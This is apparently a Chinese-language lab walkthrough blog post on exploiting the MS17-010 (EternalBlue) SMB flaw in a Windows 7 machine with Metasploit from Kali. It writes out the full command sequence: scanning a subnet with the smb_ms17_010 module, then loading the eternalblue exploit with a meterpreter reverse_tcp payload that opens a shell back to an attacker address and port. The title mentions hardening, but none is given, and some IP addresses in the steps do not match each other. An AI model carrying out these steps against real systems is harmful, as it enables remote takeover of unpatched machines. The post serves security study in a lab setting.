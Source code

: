 ```yaml
---
cover: https://weboffice.feishu-3rd-party-services.com/api/v3/office/copy/OGJHWS9KMjdkR1dGQWcxaVFzUXZFQm1LZ1V1bW83SmxaRFEweGFvT3luTkFaZ0hhYVhJUWxNRU41UzJSU1I2ZUhyUlhEZS9TMTlZRUE3YjNxbTNEeW9EYXU3OU40Rnh5eHNVUDY5WmJvdFMrcFg4RFZmRXl4aUJPeTY5bjdOVXpmSExTSzJUMDAyempxbkFEQ2QvOGxjU0dpN0JualRzQmxsRTJzdVNLQmlrV0xEKzFOZFVlUEI3RVlyM20vSklDUWNzcDFmS09YM1dGZUc0NW1wVG5FaE1wQ3dLZXB4dWxLMkFETnNQbjhmK0k0TVFnMG85Wklnb3RXbS9aeWFtZFJjQWREWG0rY3pOWDNYL1g1YkZKTUM4bE5Td1dDM3M9/attach/object/5542320f14e9c30450aabb446e67d9066cb88371?
icon: pen-to-square
date: 2025-03-19
category:
  - 经典漏洞
tag:
  - 永恒之蓝ms17-010
star: false
sticky: true
---
```


# 永恒之蓝ms17-010

MS17_010漏洞利用与安全加固（永恒之蓝）

之前做过就直接放出来啦

- 原理：

恶意代码会扫描开放445文件共享端口的Windows机器，无需用户任何操作，只要开机上网，不法分子就能在电脑和服务器中植入勒索软件、远程控制木马、虚拟货币挖矿机等恶意程序。

- 开始

1.断开防火墙，windos 7 的防火墙关闭

![img](https://weboffice.feishu-3rd-party-services.com/api/v3/office/copy/OGJHWS9KMjdkR1dGQWcxaVFzUXZFQm1LZ1V1bW83SmxaRFEweGFvT3luTkFaZ0hhYVhJUWxNRU41UzJSU1I2ZUhyUlhEZS9TMTlZRUE3YjNxbTNEeW9EYXU3OU40Rnh5eHNVUDY5WmJvdFMrcFg4RFZmRXl4aUJPeTY5bjdOVXpmSExTSzJUMDAyempxbkFEQ2QvOGxjU0dpN0JualRzQmxsRTJzdVNLQmlrV0xEKzFOZFVlUEI3RVlyM20vSklDUWNzcDFmS09YM1dGZUc0NW1wVG5FaE1wQ3dLZXB4dWxLMkFETnNQbjhmK0k0TVFnMG85Wklnb3RXbS9aeWFtZFJjQWREWG0rY3pOWDNYL1g1YkZKTUM4bE5Td1dDM3M9/attach/object/19cf8d2c68de0d214db6221d8162b4febbf3be40?)

2.实现相互ping通

![img](https://weboffice.feishu-3rd-party-services.com/api/v3/office/copy/OGJHWS9KMjdkR1dGQWcxaVFzUXZFQm1LZ1V1bW83SmxaRFEweGFvT3luTkFaZ0hhYVhJUWxNRU41UzJSU1I2ZUhyUlhEZS9TMTlZRUE3YjNxbTNEeW9EYXU3OU40Rnh5eHNVUDY5WmJvdFMrcFg4RFZmRXl4aUJPeTY5bjdOVXpmSExTSzJUMDAyempxbkFEQ2QvOGxjU0dpN0JualRzQmxsRTJzdVNLQmlrV0xEKzFOZFVlUEI3RVlyM20vSklDUWNzcDFmS09YM1dGZUc0NW1wVG5FaE1wQ3dLZXB4dWxLMkFETnNQbjhmK0k0TVFnMG85Wklnb3RXbS9aeWFtZFJjQWREWG0rY3pOWDNYL1g1YkZKTUM4bE5Td1dDM3M9/attach/object/059fa32660139a8113de7aaa7277891edee1cb56?)

![img](https://weboffice.feishu-3rd-party-services.com/api/v3/office/copy/OGJHWS9KMjdkR1dGQWcxaVFzUXZFQm1LZ1V1bW83SmxaRFEweGFvT3luTkFaZ0hhYVhJUWxNRU41UzJSU1I2ZUhyUlhEZS9TMTlZRUE3YjNxbTNEeW9EYXU3OU40Rnh5eHNVUDY5WmJvdFMrcFg4RFZmRXl4aUJPeTY5bjdOVXpmSExTSzJUMDAyempxbkFEQ2QvOGxjU0dpN0JualRzQmxsRTJzdVNLQmlrV0xEKzFOZFVlUEI3RVlyM20vSklDUWNzcDFmS09YM1dGZUc0NW1wVG5FaE1wQ3dLZXB4dWxLMkFETnNQbjhmK0k0TVFnMG85Wklnb3RXbS9aeWFtZFJjQWREWG0rY3pOWDNYL1g1YkZKTUM4bE5Td1dDM3M9/attach/object/f45d19634ae5aeda8da83028965408e64778ab7d?)

环境弄好了，正文开始！172.16.17.0

3.在kali当中启动metasploit工具，

通过执行msfconsole指令进行启动。

![img](https://weboffice.feishu-3rd-party-services.com/api/v3/office/copy/OGJHWS9KMjdkR1dGQWcxaVFzUXZFQm1LZ1V1bW83SmxaRFEweGFvT3luTkFaZ0hhYVhJUWxNRU41UzJSU1I2ZUhyUlhEZS9TMTlZRUE3YjNxbTNEeW9EYXU3OU40Rnh5eHNVUDY5WmJvdFMrcFg4RFZmRXl4aUJPeTY5bjdOVXpmSExTSzJUMDAyempxbkFEQ2QvOGxjU0dpN0JualRzQmxsRTJzdVNLQmlrV0xEKzFOZFVlUEI3RVlyM20vSklDUWNzcDFmS09YM1dGZUc0NW1wVG5FaE1wQ3dLZXB4dWxLMkFETnNQbjhmK0k0TVFnMG85Wklnb3RXbS9aeWFtZFJjQWREWG0rY3pOWDNYL1g1YkZKTUM4bE5Td1dDM3M9/attach/object/5542320f14e9c30450aabb446e67d9066cb88371?)

4.Search命令搜索ms17-010漏洞扫描模块，图中圈中的就是漏洞扫描模块。

执行：

```
search ms17-010 //搜索ms17-010相关漏洞利用模块
```

![img](https://weboffice.feishu-3rd-party-services.com/api/v3/office/copy/OGJHWS9KMjdkR1dGQWcxaVFzUXZFQm1LZ1V1bW83SmxaRFEweGFvT3luTkFaZ0hhYVhJUWxNRU41UzJSU1I2ZUhyUlhEZS9TMTlZRUE3YjNxbTNEeW9EYXU3OU40Rnh5eHNVUDY5WmJvdFMrcFg4RFZmRXl4aUJPeTY5bjdOVXpmSExTSzJUMDAyempxbkFEQ2QvOGxjU0dpN0JualRzQmxsRTJzdVNLQmlrV0xEKzFOZFVlUEI3RVlyM20vSklDUWNzcDFmS09YM1dGZUc0NW1wVG5FaE1wQ3dLZXB4dWxLMkFETnNQbjhmK0k0TVFnMG85Wklnb3RXbS9aeWFtZFJjQWREWG0rY3pOWDNYL1g1YkZKTUM4bE5Td1dDM3M9/attach/object/685b6b2224ca4f08991002b99fa745f515fdb77b?)

执行：

```
msf > use auxiliary/scanner/smb/smb_ms17_010 （利用模块该扫描模块并且设置相关扫描范围信息）。**
```

执行：

```
use auxiliary/scanner/smb/smb_ms17_010 //选择使用该模块执行搜索选项

set rhosts 192.168.6.0/24 //设置扫描的网段范围

set threads 20 //设置扫描的线程，数值越大扫描速度越快

run //开始运行即开始执行扫描
```

![img](https://weboffice.feishu-3rd-party-services.com/api/v3/office/copy/OGJHWS9KMjdkR1dGQWcxaVFzUXZFQm1LZ1V1bW83SmxaRFEweGFvT3luTkFaZ0hhYVhJUWxNRU41UzJSU1I2ZUhyUlhEZS9TMTlZRUE3YjNxbTNEeW9EYXU3OU40Rnh5eHNVUDY5WmJvdFMrcFg4RFZmRXl4aUJPeTY5bjdOVXpmSExTSzJUMDAyempxbkFEQ2QvOGxjU0dpN0JualRzQmxsRTJzdVNLQmlrV0xEKzFOZFVlUEI3RVlyM20vSklDUWNzcDFmS09YM1dGZUc0NW1wVG5FaE1wQ3dLZXB4dWxLMkFETnNQbjhmK0k0TVFnMG85Wklnb3RXbS9aeWFtZFJjQWREWG0rY3pOWDNYL1g1YkZKTUM4bE5Td1dDM3M9/attach/object/9f4cb8772045a743716175901d45c9571aa3a54b?)

6.执行扫描过后，结果如下所示，从结果中可以看到在当前扫描的网段中存在一个windows 7版本的操作系统存在ms17-010漏洞。（192.168.6.135就是window 7的IP）

![img](https://weboffice.feishu-3rd-party-services.com/api/v3/office/copy/OGJHWS9KMjdkR1dGQWcxaVFzUXZFQm1LZ1V1bW83SmxaRFEweGFvT3luTkFaZ0hhYVhJUWxNRU41UzJSU1I2ZUhyUlhEZS9TMTlZRUE3YjNxbTNEeW9EYXU3OU40Rnh5eHNVUDY5WmJvdFMrcFg4RFZmRXl4aUJPeTY5bjdOVXpmSExTSzJUMDAyempxbkFEQ2QvOGxjU0dpN0JualRzQmxsRTJzdVNLQmlrV0xEKzFOZFVlUEI3RVlyM20vSklDUWNzcDFmS09YM1dGZUc0NW1wVG5FaE1wQ3dLZXB4dWxLMkFETnNQbjhmK0k0TVFnMG85Wklnb3RXbS9aeWFtZFJjQWREWG0rY3pOWDNYL1g1YkZKTUM4bE5Td1dDM3M9/attach/object/e72fe4f5ba4516364f71a30d835c6b8b92773e9c?)

192.168.32.136:445 - Host is likely VULNERABLE to MS17-010! - Windows 7 Ultimate 7601 Service Pack 1 x64 (64-bit)

7.接下来进行漏洞利用过程即可，

执行：

```
use exploit/windows/smb/ms17_010_eternalblue //选择漏洞利用模块

set payload windows/x64/meterpreter/reverse_tcp //设置漏洞利用完成后的反弹模块，用以接收回馈信息

set lhost 192.168.6.130//设置反弹IP地址

set lport 5555 //设置反弹端口

set rhost 192.168.6.135 //设置被攻击的目标主机
```

﻿![img](https://weboffice.feishu-3rd-party-services.com/api/v3/office/copy/OGJHWS9KMjdkR1dGQWcxaVFzUXZFQm1LZ1V1bW83SmxaRFEweGFvT3luTkFaZ0hhYVhJUWxNRU41UzJSU1I2ZUhyUlhEZS9TMTlZRUE3YjNxbTNEeW9EYXU3OU40Rnh5eHNVUDY5WmJvdFMrcFg4RFZmRXl4aUJPeTY5bjdOVXpmSExTSzJUMDAyempxbkFEQ2QvOGxjU0dpN0JualRzQmxsRTJzdVNLQmlrV0xEKzFOZFVlUEI3RVlyM20vSklDUWNzcDFmS09YM1dGZUc0NW1wVG5FaE1wQ3dLZXB4dWxLMkFETnNQbjhmK0k0TVFnMG85Wklnb3RXbS9aeWFtZFJjQWREWG0rY3pOWDNYL1g1YkZKTUM4bE5Td1dDM3M9/attach/object/225a888c5a6d86597f95eed9ad76e747f952e48c?)﻿

执行：

```
show options //检查设定的信息
```

﻿![img](https://weboffice.feishu-3rd-party-services.com/api/v3/office/copy/OGJHWS9KMjdkR1dGQWcxaVFzUXZFQm1LZ1V1bW83SmxaRFEweGFvT3luTkFaZ0hhYVhJUWxNRU41UzJSU1I2ZUhyUlhEZS9TMTlZRUE3YjNxbTNEeW9EYXU3OU40Rnh5eHNVUDY5WmJvdFMrcFg4RFZmRXl4aUJPeTY5bjdOVXpmSExTSzJUMDAyempxbkFEQ2QvOGxjU0dpN0JualRzQmxsRTJzdVNLQmlrV0xEKzFOZFVlUEI3RVlyM20vSklDUWNzcDFmS09YM1dGZUc0NW1wVG5FaE1wQ3dLZXB4dWxLMkFETnNQbjhmK0k0TVFnMG85Wklnb3RXbS9aeWFtZFJjQWREWG0rY3pOWDNYL1g1YkZKTUM4bE5Td1dDM3M9/attach/object/88b6870c3fb2984fcdf44c9035c10babdc66ccb8?)﻿

9.

执行：

```
run
```

或

```
exploit //开始进行漏洞利用
```

﻿![img](https://weboffice.feishu-3rd-party-services.com/api/v3/office/copy/OGJHWS9KMjdkR1dGQWcxaVFzUXZFQm1LZ1V1bW83SmxaRFEweGFvT3luTkFaZ0hhYVhJUWxNRU41UzJSU1I2ZUhyUlhEZS9TMTlZRUE3YjNxbTNEeW9EYXU3OU40Rnh5eHNVUDY5WmJvdFMrcFg4RFZmRXl4aUJPeTY5bjdOVXpmSExTSzJUMDAyempxbkFEQ2QvOGxjU0dpN0JualRzQmxsRTJzdVNLQmlrV0xEKzFOZFVlUEI3RVlyM20vSklDUWNzcDFmS09YM1dGZUc0NW1wVG5FaE1wQ3dLZXB4dWxLMkFETnNQbjhmK0k0TVFnMG85Wklnb3RXbS9aeWFtZFJjQWREWG0rY3pOWDNYL1g1YkZKTUM4bE5Td1dDM3M9/attach/object/b498df2268003c1ad5dd728e2bb4bf61bb6ce4a5?)﻿

看到WIN了吗？你就成功了！！！
